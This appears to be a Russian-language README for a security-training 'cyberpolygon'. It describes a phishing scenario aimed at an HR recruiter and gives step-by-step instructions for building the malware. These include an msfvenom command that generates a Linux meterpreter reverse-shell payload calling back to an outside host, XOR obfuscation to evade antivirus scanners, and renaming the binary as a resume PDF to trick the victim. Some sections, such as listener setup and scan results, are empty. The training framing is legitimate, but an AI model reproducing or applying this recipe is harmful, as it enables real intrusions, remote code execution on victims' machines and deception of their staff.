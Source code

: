 # cyberpolygon
cyberpolygon for information security training

Добавить видео работы или в гиф превратить

### Для работы стенда необходимо ввести след команды
https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-27-14.png 

### Сценарий

## Что делает хакер

Хакер ищет себе жертву, которой в дальнейшем отправит вредоносный файл. С помощью социальной инженерии злоумышленник находит одну компанию на hh и звонит рекрутеру. Общаясь он рассказывает, как заинтересован в работе. После их разговора, хакер обещает прислать денису на почту резюме. 
На деле же вместо резюме лежит заархивированный вредоносный файл.

## что делает hr

Кадровик Денис заходит на почту и видит примерно следующее сообщение, которое оставил ему его телефонный собеседник: 

“Здравствуйте еще раз! я заинтересован в вашей работе. Вот мое резюме” 
Его впечатлил телефонный разговор и он бежит побыстрее посмотреть его резюме.

!!!!!!!!!!!!! 

Тем временем у атакующего включен meterpreter listener и он получает оболочку , тем самым имея возможность загрузить любые файлы и выполнить любой код. 

Чем он и пользуется, закидывая hr-ру файлик hacked.txt , в котором сообщается, что тот взломан

## Описание созданного вируса

Вирус состоит из 2-х файлов : hack.c , encoder_beautiful.c 

Создадим переменную массива беззнаковых символов с именем buf, которая содержит наш шелл-код вывод в формате C из msfvenom. Это в будущем поможет нам получить оболочку и выполнять любые команды на компьютере жертвы.

Чтобы избежать обнаружения сканерами, мы замаскируем исходную строку шелл-кода. Мы можем сделать это, создав программу-кодировщик (encoder_beautiful) для выполнения операции XOR с нашей полезной нагрузкой meterpreter.

Затем мы возьмем выходные данные нашего кодировщика и заменим полезную нагрузку нашей исходной оболочки C на запутанную версию, которую мы создали. И добавим декодер XOR в нашу исходную программу на C, чтобы деобфусцировать полезную нагрузку в памяти перед ее выполнением.

#### Порядок команд для получения готового вируса

Сгенерируем 64-битный незакодированный шеллкод с помощью msfvenom с типом вывода «c» на Kali след. командой : 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c 

Скопируем char buf[] и вставим это в программу encoder_beautiful.c

Скомпилируем командой gcc encoder_beautiful.c -o encoder_beautiful.elf

запустим ./encoder_beautiful.elf - теперь это надо скопировать

Затем мы вставим char buf[] в программу на C, которая будет действовать как оболочка для загрузки и запустит шеллкод.

Скомпилировать след. командой файл hack.c

Получен готовый вирус, который необходимо закинуть жертве. Попробуем переименовать его вместо hack.elf в resume_for_hr.pdf

Настроим прослушиватель:



Запустим:


И получаем оболочку:

Результаты сканирования антивирусных систем

Анализ сканирования касперским нашего вредоносного файла hack.elf показал следующий результат :

Анализ сканирования касперским нашего вредоносного файла resume.pdf показал следующий результат :

Результат сканирования написанного вируса на virustotal :


